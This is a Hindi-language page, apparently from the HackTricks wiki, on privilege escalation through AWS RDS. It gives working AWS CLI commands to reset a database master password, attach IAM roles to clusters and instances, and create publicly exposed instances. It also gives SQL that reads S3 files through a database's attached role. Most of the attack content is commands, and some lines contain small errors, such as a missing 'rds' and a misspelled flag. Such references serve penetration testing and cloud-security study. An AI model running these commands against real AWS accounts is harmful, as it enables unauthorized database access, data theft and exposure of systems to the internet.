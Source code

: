 # AWS - RDS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## RDS - रिलेशनल डेटाबेस सेवा

RDS के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

इस अनुमति के साथ एक हमलावर **मास्टर उपयोगकर्ता का पासवर्ड बदल सकता है**, और डेटाबेस के अंदर लॉगिन:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> आपको **डेटाबेस से संपर्क करने** में सक्षम होना चाहिए (वे आमतौर पर केवल अंदर के नेटवर्क से सुलभ होते हैं)।

**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजें।

### rds-db:connect

[**दस्तावेज़ों**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) के अनुसार, इस अनुमति के साथ एक उपयोगकर्ता DB इंस्टेंस से कनेक्ट कर सकता है।

### RDS भूमिका IAM अनुमतियों का दुरुपयोग

#### पोस्टग्रेएसक्यूएल (ऑरोरा)

> [!TIP]
> यदि आप **`SELECT datname FROM pg_database;`** चलाते हैं और आपको **`rdsadmin`** नामक एक डेटाबेस मिलता है, तो आप जानते हैं कि आप एक **AWS पोस्टग्रेएसक्यूएल डेटाबेस** के अंदर हैं।

पहले आप यह जांच सकते हैं कि क्या इस डेटाबेस का उपयोग किसी अन्य AWS सेवा तक पहुँचने के लिए किया गया है। आप स्थापित एक्सटेंशन को देखकर यह जांच सकते हैं:
```sql
SELECT * FROM pg_extension;
```
यदि आप कुछ ऐसा पाते हैं जैसे **`aws_s3`** तो आप मान सकते हैं कि इस डेटाबेस के पास **S3 पर कुछ प्रकार की पहुंच है** (अन्य एक्सटेंशन जैसे **`aws_ml`** और **`aws_lambda`** भी हैं)।

इसके अलावा, यदि आपके पास **`aws rds describe-db-clusters`** चलाने की अनुमति है, तो आप वहां देख सकते हैं कि **क्लस्टर में कोई IAM भूमिका संलग्न है** या नहीं, क्षेत्र **`AssociatedRoles`** में। यदि कोई है, तो आप मान सकते हैं कि डेटाबेस **अन्य AWS सेवाओं तक पहुंचने के लिए तैयार था**। **भूमिका के नाम** के आधार पर (या यदि आप भूमिका के **अनुमतियों** को प्राप्त कर सकते हैं) आप **अनुमान** लगा सकते हैं कि डेटाबेस के पास क्या अतिरिक्त पहुंच है।

अब, **बकेट के अंदर एक फ़ाइल पढ़ने के लिए** आपको पूरा पथ जानना होगा। आप इसे पढ़ सकते हैं:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
यदि आपके पास **कच्चे AWS क्रेडेंशियल्स** हैं, तो आप उन्हें S3 डेटा तक पहुँचने के लिए भी उपयोग कर सकते हैं:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Postgresql **को S3 तक पहुँचने के लिए किसी भी पैरामीटर समूह के चर को बदलने की आवश्यकता नहीं है**।

#### Mysql (Aurora)

> [!TIP]
> एक mysql के अंदर, यदि आप क्वेरी **`SELECT User, Host FROM mysql.user;`** चलाते हैं और वहाँ एक उपयोगकर्ता है जिसका नाम **`rdsadmin`** है, तो आप मान सकते हैं कि आप एक **AWS RDS mysql db** के अंदर हैं।

Mysql के अंदर **`show variables;`** चलाएँ और यदि चर जैसे **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** के मान हैं, तो आप मान सकते हैं कि डेटाबेस S3 डेटा तक पहुँचने के लिए तैयार है।

इसके अलावा, यदि आपके पास **`aws rds describe-db-clusters`** चलाने की अनुमति है, तो आप देख सकते हैं कि क्लस्टर में कोई **संबंधित भूमिका** है या नहीं, जो आमतौर पर AWS सेवाओं तक पहुँच का मतलब होता है।

अब, एक बकेट के अंदर **एक फ़ाइल पढ़ने के लिए** आपको पूरा पथ जानना होगा। आप इसे पढ़ सकते हैं:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

एक हमलावर जिसके पास `rds:AddRoleToDBCluster` और `iam:PassRole` की अनुमति है, वह **एक मौजूदा RDS उदाहरण में एक निर्दिष्ट भूमिका जोड़ सकता है**। इससे हमलावर को **संवेदनशील डेटा तक पहुंचने** या उदाहरण के भीतर डेटा को संशोधित करने की अनुमति मिल सकती है।
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**संभावित प्रभाव**: RDS उदाहरण में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।\
ध्यान दें कि कुछ DBs को अतिरिक्त कॉन्फ़िगरेशन की आवश्यकता होती है जैसे Mysql, जिसे पैरामीटर समूहों में भूमिका ARN निर्दिष्ट करने की आवश्यकता होती है।

### `rds:CreateDBInstance`

इस अनुमति के साथ एक हमलावर एक **क्लस्टर के अंदर एक नया उदाहरण** बना सकता है जो पहले से मौजूद है और जिसमें एक **IAM भूमिका** संलग्न है। वह मास्टर उपयोगकर्ता पासवर्ड को बदलने में असमर्थ होगा, लेकिन वह नए डेटाबेस उदाहरण को इंटरनेट पर उजागर करने में सक्षम हो सकता है:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: Test

एक हमलावर जिसके पास `rds:CreateDBInstance` और `iam:PassRole` की अनुमति है, **एक निर्दिष्ट भूमिका के साथ एक नया RDS उदाहरण बना सकता है**। हमलावर फिर संभावित रूप से **संवेदनशील डेटा तक पहुँच** या उदाहरण के भीतर डेटा को संशोधित कर सकता है।

> [!WARNING]
> भूमिका/उदाहरण-प्रोफ़ाइल को संलग्न करने की कुछ आवश्यकताएँ (से [**यहाँ**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

> - प्रोफ़ाइल आपके खाते में मौजूद होनी चाहिए।
> - प्रोफ़ाइल में एक IAM भूमिका होनी चाहिए जिसे Amazon EC2 द्वारा ग्रहण करने की अनुमति हो।
> - उदाहरण प्रोफ़ाइल का नाम और संबंधित IAM भूमिका का नाम `AWSRDSCustom` उपसर्ग से शुरू होना चाहिए।
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**संभावित प्रभाव**: RDS उदाहरण में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।

### `rds:AddRoleToDBInstance`, `iam:PassRole`

एक हमलावर जिसके पास `rds:AddRoleToDBInstance` और `iam:PassRole` की अनुमति है, **एक मौजूदा RDS उदाहरण में एक निर्दिष्ट भूमिका जोड़ सकता है**। इससे हमलावर को **संवेदनशील डेटा तक पहुंच** या उदाहरण के भीतर डेटा को संशोधित करने की अनुमति मिल सकती है।

> [!WARNING]
> DB उदाहरण को इसके लिए क्लस्टर के बाहर होना चाहिए
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**संभावित प्रभाव**: RDS उदाहरण में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन। 

{{#include ../../../banners/hacktricks-training.md}}
